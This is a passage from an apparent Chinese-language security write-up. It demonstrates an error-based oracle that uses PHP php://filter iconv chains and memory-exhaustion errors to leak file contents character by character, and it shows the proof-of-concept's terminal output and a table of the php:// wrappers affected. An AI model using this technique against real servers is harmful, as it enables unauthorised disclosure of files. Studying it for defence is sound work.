 ```plain
$ echo '1234a67' > /tmp/test
$ php oracle.php 
Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 1, the fifth character is e

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 2, the fifth character is d

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 3, the fifth character is c

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 4, the fifth character is b

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 5, the fifth character is a

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 110796800 bytes) in /tmp/oracle.php on line 16

$ echo '1234d67' > /tmp/test
$ php oracle.php 
Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 1, the fifth character is e

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 2, the fifth character is d

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 101711872 bytes) in /tmp/oracle.php on line 16
```

当 `iconv` 引发无效多字节序列的 `UCS-4LE` 编码警告时，过滤器 filter 仍在工作，并使字符串大小呈指数级，从而触发内存大小耗尽错误发生。

在研究过程中，有些框架将这种警告视为错误发生，所以在这种情况下，需要将字符串大小更正为 4 的倍数（对于 UCS-4 编码）。

## 六、被影响的函数

现在攻击已经完成了，让看看它可以用在哪些地方。根据文档[https://www.php.net/manual/en/wrappers.php.php#refsect1-wrappers.php-options，\`php://filter\`可以使用在\`php://\`能使用的地方，具体看下表：](https://www.php.net/manual/en/wrappers.php.php#refsect1-wrappers.php-options%EF%BC%8C%60php://filter%60%E5%8F%AF%E4%BB%A5%E4%BD%BF%E7%94%A8%E5%9C%A8%60php://%60%E8%83%BD%E4%BD%BF%E7%94%A8%E7%9A%84%E5%9C%B0%E6%96%B9%EF%BC%8C%E5%85%B7%E4%BD%93%E7%9C%8B%E4%B8%8B%E8%A1%A8%EF%BC%9A)

| 属性  | 可支持的 |
| --- | --- |
| Restricted by [allow\_url\_fopen](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen) | No  |
| Restricted by [allow\_url\_include](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include) | `php://input`, `php://stdin`, `php://memory` and `php://temp` only. |
| Allows Reading | `php://stdin`, `php://input`, `php://fd`, `php://memory` and `php://temp` only. |
| Allows Writing | `php://stdout`, `php://stderr`, `php://output`, `php://fd`, `php://memory` and `php://temp` only. |
| Allows Appending | `php://stdout`, `php://stderr`, `php://output`, `php://fd`, `php://memory` and `php://temp` only. (Equivalent to writing) |
| Allows Simultaneous Reading and Writing | `php://fd`, `php://memory` and `php://temp` only. |